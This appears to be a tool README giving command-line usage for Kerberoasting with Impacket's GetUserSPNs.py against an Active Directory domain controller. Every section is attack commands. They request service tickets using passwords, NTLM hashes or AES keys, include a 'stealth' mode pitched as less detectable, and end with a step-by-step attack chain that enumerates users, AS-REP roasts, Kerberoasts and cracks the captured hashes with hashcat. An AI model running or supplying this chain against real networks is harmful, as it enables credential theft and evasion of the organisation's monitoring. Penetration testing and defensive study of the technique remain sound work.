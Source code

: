 ## Usage Examples

### Basic Kerberoasting
```bash
# Enumerate all SPNs and request tickets
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request

# Target specific user with SPN
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request-user service_account

# Save output to file
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request -outputfile spn_hashes.txt
```

### Stealth Enumeration
```bash
# Perform stealth enumeration (slower but less detectable)
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -stealth -request

# Just enumerate SPNs without requesting tickets
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10
```

### Using Different Authentication Methods
```bash
# Use NTLM hash authentication
python3 GetUserSPNs.py domain.com/user -hashes :ntlmhash -dc-ip 192.168.1.10 -request

# Use Kerberos authentication
python3 GetUserSPNs.py domain.com/user -k -dc-ip 192.168.1.10 -request

# Use AES key for Kerberos
python3 GetUserSPNs.py domain.com/user -aesKey aes_key -k -dc-ip 192.168.1.10 -request
```

### Targeted Attacks
```bash
# Use custom user list
python3 GetUserSPNs.py domain.com/user:password -usersfile service_accounts.txt -dc-ip 192.168.1.10 -request

# Save tickets to ccache files
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request -save
```

## Attack Chain Integration

### Initial Domain Reconnaissance
```bash
# Step 1: Perform basic domain enumeration
python3 GetADUsers.py domain.com/user:password -dc-ip 192.168.1.10 -all

# Step 2: Check for ASREPRoastable users
python3 GetNPUsers.py domain.com/user:password -dc-ip 192.168.1.10 -request

# Step 3: Perform Kerberoasting
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request

# Step 4: Crack obtained hashes
hashcat -m 13100 spn_hashes.txt wordlist.txt
```
